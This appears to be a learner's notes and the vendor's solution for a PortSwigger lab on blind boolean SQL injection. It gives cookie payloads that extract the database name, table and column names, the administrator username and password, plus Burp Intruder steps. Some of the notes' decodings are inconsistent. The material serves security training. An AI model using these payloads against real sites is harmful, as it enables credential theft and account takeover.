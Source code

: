 ' AND (SELECT LENGTH(current_database()))> 11--

database name 11 characters

' AND (SELECT ascii(SUBSTR((SELECT current_database()),1,1))) = 97--
' AND (SELECT ascii(SUBSTR((SELECT current_database()),2,1))) = 99--
' AND (SELECT ascii(SUBSTR((SELECT current_database()),3,1))) = 97--
' AND (SELECT ascii(SUBSTR((SELECT current_database()),4,1))) = 100--
' AND (SELECT ascii(SUBSTR((SELECT current_database()),5,1))) = 101--
' AND (SELECT ascii(SUBSTR((SELECT current_database()),6,1))) = 109--
' AND (SELECT ascii(SUBSTR((SELECT current_database()),7,1))) = 121--
' AND (SELECT ascii(SUBSTR((SELECT current_database()),8,1))) = 95--
' AND (SELECT ascii(SUBSTR((SELECT current_database()),9,1))) = 108--
' AND (SELECT ascii(SUBSTR((SELECT current_database()),10,1))) = 97--
' AND (SELECT ascii(SUBSTR((SELECT current_database()),11,1))) = 98--
' AND (SELECT ascii(SUBSTR((SELECT current_database()),12,1))) = 115--

academy_labs

--------------------------------

 Table Name
 
' AND (SELECT ascii(SUBSTR((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET 0),1,1)))=117--
' AND (SELECT ascii(SUBSTR((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET 0),2,1)))=115--
' AND (SELECT ascii(SUBSTR((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET 0),3,1)))=101--
' AND (SELECT ascii(SUBSTR((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET 0),4,1)))=114--
' AND (SELECT ascii(SUBSTR((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET 0),5,1)))=115--

users

----------------------------------
First Column

' AND  (SELECT ascii(SUBSTR((SELECT column_name FROM information_schema.columns where table_name=CHR(117)||CHR(115)||CHR(101)||CHR(114)||CHR(115) LIMIT 1 OFFSET 0),1,1)))=117--
' AND  (SELECT ascii(SUBSTR((SELECT column_name FROM information_schema.columns where table_name=CHR(117)||CHR(115)||CHR(101)||CHR(114)||CHR(115) LIMIT 1 OFFSET 0),2,1)))=115--
' AND  (SELECT ascii(SUBSTR((SELECT column_name FROM information_schema.columns where table_name=CHR(117)||CHR(115)||CHR(101)||CHR(114)||CHR(115) LIMIT 1 OFFSET 0),3,1)))=101--
' AND  (SELECT ascii(SUBSTR((SELECT column_name FROM information_schema.columns where table_name=CHR(117)||CHR(115)||CHR(101)||CHR(114)||CHR(115) LIMIT 1 OFFSET 0),4,1)))=114--
' AND  (SELECT ascii(SUBSTR((SELECT column_name FROM information_schema.columns where table_name=CHR(117)||CHR(115)||CHR(101)||CHR(114)||CHR(115) LIMIT 1 OFFSET 0),5,1)))=110--
' AND  (SELECT ascii(SUBSTR((SELECT column_name FROM information_schema.columns where table_name=CHR(117)||CHR(115)||CHR(101)||CHR(114)||CHR(115) LIMIT 1 OFFSET 0),6,1)))=97--
' AND  (SELECT ascii(SUBSTR((SELECT column_name FROM information_schema.columns where table_name=CHR(117)||CHR(115)||CHR(101)||CHR(114)||CHR(115) LIMIT 1 OFFSET 0),7,1)))=109--
' AND  (SELECT ascii(SUBSTR((SELECT column_name FROM information_schema.columns where table_name=CHR(117)||CHR(115)||CHR(101)||CHR(114)||CHR(115) LIMIT 1 OFFSET 0),8,1)))=101--
' AND  (SELECT ascii(SUBSTR((SELECT column_name FROM information_schema.columns where table_name=CHR(117)||CHR(115)||CHR(101)||CHR(114)||CHR(115) LIMIT 1 OFFSET 0),9,1)))=46--


username.

' AND (SELECT ascii(SUBSTR((SELECT username FROM users LIMIT 1 OFFSET 0),1,1))) = 97-- = a
' AND (SELECT ascii(SUBSTR((SELECT username FROM users LIMIT 1 OFFSET 0),2,1))) = 100-- = d
' AND (SELECT ascii(SUBSTR((SELECT username FROM users LIMIT 1 OFFSET 0),3,1))) = 109-- m
' AND (SELECT ascii(SUBSTR((SELECT username FROM users LIMIT 1 OFFSET 0),4,1))) = 105-- = i
' AND (SELECT ascii(SUBSTR((SELECT username FROM users LIMIT 1 OFFSET 0),5,1))) = 110-- = n
' AND (SELECT ascii(SUBSTR((SELECT username FROM users LIMIT 1 OFFSET 0),6,1))) = 105-- = i
' AND (SELECT ascii(SUBSTR((SELECT username FROM users LIMIT 1 OFFSET 0),7,1))) = 115-- = s
' AND (SELECT ascii(SUBSTR((SELECT username FROM users LIMIT 1 OFFSET 0),8,1))) = 116-- = t
' AND (SELECT ascii(SUBSTR((SELECT username FROM users LIMIT 1 OFFSET 0),9,1))) = 114-- = r
' AND (SELECT ascii(SUBSTR((SELECT username FROM users LIMIT 1 OFFSET 0),10,1))) = 97-- = a
' AND (SELECT ascii(SUBSTR((SELECT username FROM users LIMIT 1 OFFSET 0),11,1))) = 116-- = t
' AND (SELECT ascii(SUBSTR((SELECT username FROM users LIMIT 1 OFFSET 0),12,1))) = 111-- = o
' AND (SELECT ascii(SUBSTR((SELECT username FROM users LIMIT 1 OFFSET 0),13,1))) = 114-- = r

First user = administrator

' AND (SELECT ascii(SUBSTR((SELECT password FROM users where username='administrator'),1,1))) = 121-- = y

120 = x
99 =c
121 = y
56 = 8
115 = s
57 = 9
51 = 3
111 = o
99 = c
48 = 0
107 = k
99 = c
51 = 3
118 = v
121 = y
55 = 7
117 = u
106 = j
108 = l

password: yxcy8s93oc0kc3vy7ujl

Solution: PortSwigger

```
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. For simplicity, let's say the original value of the cookie is `TrackingId=xyz`.
2. Modify the `TrackingId` cookie, changing it to:
    
    `TrackingId=xyz' AND '1'='1`
    
    Verify that the "Welcome back" message appears in the response.
    
3. Now change it to:
    
    `TrackingId=xyz' AND '1'='2`
    
    Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.
    
4. Now change it to:
    
    `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`
    
    Verify that the condition is true, confirming that there is a table called `users`.
    
5. Now change it to:
    
    `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`
    
    Verify that the condition is true, confirming that there is a user called `administrator`.
    
6. The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to:
    
    `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
    
    This condition should be true, confirming that the password is greater than 1 character in length.
    
7. Send a series of follow-up values to test different password lengths. Send:
    
    `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`
    
    Then send:
    
    `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a`
    
    And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the "Welcome back" message disappears), you have determined the length of the password, which is in fact 20 characters long.
    
8. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.
9. In the Positions tab of Burp Intruder, change the value of the cookie to:
    
    `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`
    
    This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
    
10. Place payload position markers around the final `a` character in the cookie value. To do this, select just the `a`, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):
    
    `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`
11. To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under **Payload settings** add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
12. To be able to tell when the correct character was submitted, you'll need to grep each response for the expression "Welcome back". To do this, go to the **Settings** tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".
13. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
14. Review the attack results to find the value of the character at the first position. You should see a column in the results called "Welcome back". One of the rows should have a tick in this column. The payload showing for that row is the value of the character at the first position.
15. Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:
    
    `TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a`
16. Launch the modified attack, review the results, and note the character at the second offset.
17. Continue this process testing offset 3, 4, and so on, until you have the whole password.
18. In the browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.
```








